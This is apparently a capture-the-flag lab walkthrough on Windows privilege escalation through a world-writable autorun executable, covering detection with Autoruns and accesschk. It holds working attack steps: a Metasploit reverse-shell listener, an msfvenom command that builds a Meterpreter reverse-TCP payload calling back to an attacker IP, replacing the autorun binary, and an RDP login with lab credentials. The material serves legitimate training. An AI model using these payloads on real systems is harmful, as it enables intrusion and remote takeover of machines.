







# Exploit Autorun Startup Programs

Running Autoruns64.exe from [Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) we can view which programs that run from the autorun registry keys or folders. This tool also provides insight into Scheduled Tasks, Services, WinLogon, DLLS, and more.

Manual detection would require looking for entries in the following two registry keys:

```bash
PS C:\Users\kamino> Get-Item -Path Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

PS C:\Users\kamino> Get-Item -Path Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

## Detection

Run Autoruns64.exe on the target system.

```bash
C:\Users\user> C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
```



In Autoruns, click on the ‘`Logon`’ tab.
From the listed results, notice that the “`My Program`” entry is pointing to “C:\Program Files\Autorun Program\program.exe”.



Run `accesschk64.exe` against `My Program`

```bash
C:\Users\user> C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```

From the output, notice that the “`Everyone`” user group has “`FILE_ALL_ACCESS`” permission on the “program.exe” file.



## Exploitation

Start a multi-handler reverse shell

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.18.48.44
LHOST => 10.18.48.44
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.18.48.44:4444
```

Generate `msfvenom` exploit

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.18.48.44 lport=4444 -f exe -o program.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: program.exe
```

Serve file on Python http server
Download from IE on target



Replace the “autorun” file program.exe on the target



## Logoff and Log Back On System

To simulate the privilege escalation effect, logoff and then log back on as an `administrator` user.

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ xfreerdp /v:10.10.215.72 /u:TCM /p:Hacker123 +clipboard
```




